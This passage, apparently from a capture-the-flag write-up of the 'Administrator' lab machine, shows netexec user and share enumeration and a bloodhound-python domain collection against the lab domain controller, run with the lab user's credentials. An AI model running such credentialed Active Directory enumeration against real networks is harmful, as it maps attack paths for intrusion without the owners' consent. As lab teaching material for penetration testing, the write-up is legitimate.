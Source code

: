 SMB         10.10.11.42     445    DC               olivia                        2024-10-06 01:22:48 0        
SMB         10.10.11.42     445    DC               michael                       2024-10-06 01:33:37 0        
SMB         10.10.11.42     445    DC               benjamin                      2024-10-06 01:34:56 0        
SMB         10.10.11.42     445    DC               emily                         2024-10-30 23:40:02 0        
SMB         10.10.11.42     445    DC               ethan                         2024-10-12 20:52:14 0        
SMB         10.10.11.42     445    DC               alexander                     2024-10-31 00:18:04 0        
SMB         10.10.11.42     445    DC               emma                          2024-10-31 00:18:35 0        
SMB         10.10.11.42     445    DC               [*] Enumerated 10 local users: ADMINISTRATOR
{% endhighlight %}

#### Shares

We have read privileges over <mark>IPC$</mark>, <mark>NETLOGON</mark> and <mark>SYSVOL</mark> shares. Default shares for a DC.

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u olivia -p ichliebedich --shares  
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
{% endhighlight %}

I will not delve deeper here, as I want to use <mark>BloodHound</mark> to enumerate the entire domain.

### BloodHound

We will use <mark>BloodHound</mark> to identify and analyze possible attack paths. First, let's start with our ingestor.

#### BloodHound-python

We can use a python based ingestor for <mark>BloodHound</mark>.

{% highlight shell %}
exegol-liemek administrator # bloodhound-python -d administrator.htb -c all -u olivia -p ichliebedich -ns 10.10.11.42 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups